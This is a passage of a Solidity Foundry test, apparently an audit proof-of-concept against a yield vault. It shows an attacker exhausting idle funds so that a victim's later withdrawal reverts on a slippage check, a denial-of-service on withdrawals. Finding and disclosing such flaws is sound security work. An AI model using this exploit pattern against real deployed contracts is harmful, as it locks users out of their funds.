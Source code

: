 ```solidity
        sut.deposit(1000e18);
        vm.stopPrank();

        vm.startPrank(victim1);
        assetMock.approve(address(sut), 500e18);
        sut.deposit(500e18);
        vm.stopPrank();

        // Setup strategy with loss
        StrategyMock lossyStrategy = new StrategyMock();
        lossyStrategy.setVaultAddress(address(sut));
        lossyStrategy.setWantAddress(address(sut.token()));

        vm.startPrank(DEFAULT_ADMIN.addr);
        sut.addStrategy(address(lossyStrategy), 1000, 5000); // 50% allocation
        vm.stopPrank();

        // Strategy gets allocated funds (50% of 1500e18 total deposits = 750e18)
        deal(address(assetMock), address(lossyStrategy), 750e18);
        lossyStrategy.approveVaultSpender();
        
        vm.startPrank(address(lossyStrategy));
        sut.report(0, 0); // Trigger allocation: totalIdle becomes 750e18
        vm.stopPrank();

        // Configure strategy with 1% loss rate
        lossyStrategy.setWithdrawLossPercent(100); // 1% loss
        deal(address(assetMock), address(lossyStrategy), 750e18);
        lossyStrategy.approveVaultSpender();

        // === PART 1: DEMONSTRATE DoS ATTACK (Strict Slippage) ===
        // Default slippage is 0.01% (1 BPS), strategy has 1% loss rate
        
        // Attacker and victim initiate withdrawals
        vm.startPrank(attacker);
        sut.initiateWithdraw(700e18); // Consume most idle funds, leaving only 50e18
        vm.stopPrank();

        vm.startPrank(victim1);
        sut.initiateWithdraw(200e18); // Will be forced into strategy loss (200e18 > 50e18 idle)
        vm.stopPrank();

        skip(sut.cooldownPeriod() + 1);

        ReaperERC721WithdrawCooldown nft = sut.withdrawCooldownNft();
        uint256 attackerTokenId = nft.tokenOfOwnerByIndex(attacker, 0);
        uint256 victim1TokenId = nft.tokenOfOwnerByIndex(victim1, 0);

        // Attacker withdraws successfully using idle funds (no strategy interaction)
        vm.startPrank(attacker);
        sut.withdraw(attackerTokenId);
        vm.stopPrank();

        // Verify remaining idle funds are insufficient for victim1
        uint256 remainingIdle = sut.totalIdle();
        assertTrue(remainingIdle < 200e18, "Idle funds should be insufficient for victim1");

        // Victim1 CANNOT withdraw - DoS due to strict slippage (1% strategy loss > 0.01% limit)
        vm.startPrank(victim1);
        vm.expectRevert("Withdraw loss exceeds slippage");
        sut.withdraw(victim1TokenId);
        vm.stopPrank();

```